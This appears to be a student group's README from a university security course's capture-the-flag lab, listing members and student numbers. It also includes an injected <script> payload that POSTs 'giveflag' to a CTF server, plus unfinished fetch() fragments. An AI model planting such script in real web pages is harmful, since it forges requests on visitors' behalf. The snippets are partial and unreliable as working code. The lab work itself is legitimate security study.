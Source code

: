 
Breve descrição do grupo

* Turno: L06
* Grupo: 02
* Alunos:
    - Diogo Luís Henriques Costa up201906731 
    - Eunice Juliana Freitas Amorim up201904920
    - Francisco José Barbosa Marques Colino up201905405



<script> getFlag = function () {
    var xmlHttp = new XMLHttpRequest();     
    xmlHttp.open( "POST", "");    
    xmlHttp.setRequestHeader("User-Agent", "ctf-fsi.fe.up.pt:5002") 
    xmlHttp.send("giveflag");     
    return xmlHttp.responseText; }; 
    console.log(getFlag())
    </script>

    let headers = new Headers({
    "Accept"       : "application/json",
    "Content-Type" : "application/json",
    "User-Agent"   : "MY-UA-STRING"
});

fetch("", {
    method  : 'POST', 
    headers : headers 
    // ... etc
}).then( ...

fetch("",
{
    method: "POST",
    body: "giveflag"
})
.then(function(res){ console.log(res) })